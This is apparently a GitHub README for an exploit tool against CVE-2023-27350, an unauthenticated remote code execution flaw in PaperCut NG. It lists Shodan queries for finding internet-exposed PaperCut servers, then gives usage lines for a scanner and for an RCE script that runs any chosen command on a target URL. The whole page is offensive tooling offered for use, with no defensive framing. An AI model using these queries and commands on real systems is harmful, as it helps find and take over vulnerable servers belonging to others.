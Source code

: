 # CVE-2023-27350
![](https://img.shields.io/static/v1?label=Product&message=PaperCut%20NG&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=22.0.5%20(Build%2063914)&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)


- Shodan dork
```
http.html:"papercut"
http.html:"papercut" port:9191
http.title:"PaperCut Login"
```  
## Usage <br/>
- Check
```
python3 scanner.py
Enter IP:
```
- RCE    
```
python3 papercut_rce.py --url 'http://ip:9191' --command calc.exe
```
